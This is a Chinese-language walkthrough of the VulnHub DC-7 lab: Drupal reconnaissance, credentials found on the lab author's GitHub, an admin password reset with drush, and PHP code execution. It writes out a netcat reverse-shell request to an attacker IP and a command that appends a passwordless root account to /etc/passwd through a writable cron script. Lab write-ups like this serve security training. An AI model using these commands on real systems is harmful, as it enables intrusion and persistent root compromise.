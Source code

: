 ```yaml
---
title: DC-7
tags:
  - Vulnhub
  - DC-7
categories: 
  - 渗透靶机训练
description: A bit harder.
excerpt: A bit harder.
typora-root-url: DC-7
abbrlink: 41657
date: 2021-04-01 18:56:15
---
```


# DC-7

## 基础信息收集

NMAP Result：

![image-20210401185724085](image-20210401185724085.png)

Nikto的结果没暴露啥有用信息。

## Drupal试探

![image-20210401190459135](image-20210401190459135.png)

可以看到这是一个Drupal的站，用droopscan扫描一下：

![image-20210401190237889](image-20210401190237889.png)

没什么有用的信息，搜了一下版本的EXP也没有发现：

![image-20210401190329099](image-20210401190329099.png)

## 通过Tips找关键

![image-20210401190406247](image-20210401190406247.png)

这段话提示了一下，从外部找线索，看到最下面有一个**@DC7USER**，外国友人活跃的平台Twitter，搜一波：

![image-20210401190620640](image-20210401190620640.png)

芜湖，主页有Github的地址：

![image-20210401190701621](image-20210401190701621.png)

只有一个代码仓库，并且表述可以确定是DC-7的一些源代码。

配置文件：

![image-20210401190813122](image-20210401190813122.png)

这就有趣了！

![image-20210401190859216](image-20210401190859216.png)

尝试在Drupal登录失败，nmap还扫描出了SSH，再试试SSH：

![image-20210401190952168](image-20210401190952168.png)

成功进入！

## 修改Drupal管理员密码

在用户根目录下有一个mbox，记录了邮件，可以知道服务器存在一个定时任务备份。

但是backups目录下的所有文件都是通过gpg加密的，无法看到具体内容。

查看脚本内容可以看到：

![image-20210401191310236](image-20210401191310236.png)

drush命令可用！

那么，通过drush修改管理员密码应该是可行的！

![image-20210401191623226](image-20210401191623226.png)

修改成功！

## 拿到www-data用户的shell

光明正大地登录到网站：

![image-20210401191712786](image-20210401191712786.png)

修改Content的时候发现Drupal好像不支持使用PHP代码？

Google一下，原来需要给Drupal装一个拓展。

在Extend模块下选择Install new module，地址为：

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

安装完成后启用模块即可。

接下就可以很简单的反弹一个shell回去了。

![image-20210401192050128](image-20210401192050128.png)

加上这行，于是反弹一个shell

## 提权

请求：

```bash
http://192.168.145.140/?cmd=nc%20192.168.145.130%208888%20-e%20/bin/bash
```

![image-20210401192215144](image-20210401192215144.png)

成功拿到。

![image-20210401192352036](image-20210401192352036.png)

backups.sh的用户组是www-data，那么我们可以修改这个文件的内容，然后再利用定时任务触发获取root权限！

给定时任务加上一行：

```bash
echo 'echo "escape::0:0:::/bin/bash" >> /etc/passwd' >> backups.sh
```

然后我们只需要等待，等待定时任务触发，一旦定时任务触发，就会向**\/etc\/passwd**文件追加一行内容，而这行内容可以轻松的获取权限。

![image-20210401192631259](image-20210401192631259.png)

经过等待，可以看到已经追加完毕，切换用户，读取Flag！

![image-20210401192708707](image-20210401192708707.png)

除此之外还有很多提权手法，例如定时任务反弹shell，但是添加用户这种方式更为简洁，服务器在外网的情况下，使用公网反弹shell反倒不如直接添加一个提权账户。